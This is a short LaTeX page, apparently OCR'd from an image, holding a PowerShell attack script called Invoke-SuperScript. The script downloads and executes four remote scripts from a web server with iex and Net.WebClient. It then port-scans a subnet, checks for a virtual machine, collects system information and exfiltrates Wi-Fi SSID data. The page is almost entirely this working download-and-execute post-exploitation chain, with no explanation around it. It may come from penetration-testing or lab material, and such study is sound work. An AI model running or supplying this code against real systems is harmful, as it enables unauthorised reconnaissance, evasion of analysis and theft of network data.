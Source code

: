 \documentclass{article}%
\begin{document}
\begin{verbatim}
function Invoke-SuperScript{

	iex (new-Object net.webclient).DownloadString
	("http://192.168.2.36:8000/Invoke-PortScan.ps1");

	iex (new-Object Net.WebClient).DownloadString
	("http://192.168.2.36:8000/Check-VM.ps1");

	iex (new-Object Net.WebClient).DownloadString
	("http://192.168.2.36:8000/Get-Information.ps1");

	iex (new-Object Net.WebClient).DownloadString
	("http://192.168.2.36:8000/Invoke-SSIDExfil.ps1");

	Invoke-PortScan -StartAddress 10.0.2.1 
	    -EndAddress 10.0.2.254 -ResolveHost -ScanPort;

	Invoke-PortScan -StartAddress 10.0.2.15 
	    -EndAddress 10.0.2.15 -ResolveHost -ScanPort;

	Check-VM;

	Get-Information;

	Invoke-SSIDExfil;
}
\end{verbatim}
\hypertarget{output1}{\subsubsection{Output:Get-Information}}
\end{document}
